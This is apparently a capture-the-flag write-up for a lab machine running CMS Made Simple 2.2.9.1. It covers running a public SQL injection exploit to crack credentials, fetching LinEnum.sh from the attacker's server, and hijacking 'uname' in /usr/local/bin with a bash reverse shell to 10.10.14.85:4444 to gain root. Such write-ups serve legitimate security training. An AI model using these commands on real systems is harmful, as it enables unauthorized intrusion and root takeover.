










### Task 1

Submit user flag.

Opening the browser to the IP address of the target it is revealed that the web site uses DDoS protection.

Navigating to ``/robots.txt`` we can see that there is a path called ``writeup/``. 

The ``writeup/`` path shows the following page:

Running ``whatweb`` against the website ``whatweb <target_ip>/writeup -v`` we find the CMS to be ``CMS Made Simple``.

We can then try the directories used which can be found at ``http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/``. 

Trying out the path ``admin/`` we get a pop-up to authenticate, default credentials ``username=admin`` and ``password=admin`` did not get us in.

Next, other directories are being tried to find the version of the CMS. At ``doc/CHANGELOG.txt`` we found that the version is 2.2.9.1.

Using ``searchsploit CMS Made Simple`` we search for exploits and find versions lower than 2.2.10 are vulnerable to SQL Injection.

We can then copy the exploit from searchsploitby running ``searchsploit -m php/webapps/46635.py`` and run it by ``python3 46635.py -u http://<target_ip>/writeup/ -c -w rocktou.txt`` where the -c switch is specified to crack the detected password. The script detects the credentials which we can then use for the admin login prompt. This did not work but after trying ssh with the same credentials ``ssh <username>@<target_ip>`` we get in and find the user flag on the home directory of the user by ``cat user.txt``.  

### Task 2

Submit root flag.

To see if we can exploit any vulnerabilities on the target machine we run the script for Linux Enumeration. After getting the bash file on the host machine, we open a server on port 8000, on the directory we downloaded the file to, using the command  
`python3 -m http.server 8000`

On the target machine we run  
`wget http://10.10.14.85:8000/LinEnum.sh -O /tmp/LinEnum.sh`

After running the script, we find the user being on the staff group which allows users to add local modifications to the system (`/usr/local`) without needing root privileges. This means if root runs a script or command, and that command is resolved to your version in `/usr/local/bin`, it will run your code as root.

  

We run the following to see which services or scripts might be impacted by `/usr/local/bin`:
`grep -r "/usr/local/bin" /etc/profile* /etc/bash.bashrc /etc/pam.d /etc/update-motd.d 2>/dev/null`.
We confirm that `/usr/local/bin` is part of the `PATH` environment and that the update-motd system executes `uname`. Then, we verify that `/etc/update-motd.d/10-uname` indeed runs `uname`, meaning it could execute our payload if replaced:

Since `/usr/local/bin` comes first in the `PATH`, we can hijack `uname` with our own reverse shell payload.

We first start a listener on our machine:  
`nc -lvnp 4444`

Then we overwrite `uname` with a malicious script in `/usr/local/bin/uname`:  
`echo -e '#!/bin/bash\n/bin/bash -i >& /dev/tcp/10.10.14.85/4444 0>&1' > /usr/local/bin/uname`  
`chmod +x /usr/local/bin/uname`

Now, when the system runs `uname` during SSH login, it executes our reverse shell and gives us a root shell.

Once the reverse shell connects back, we are root and we can read the root flag. 
`cd /root`  
`cat root.txt`

  
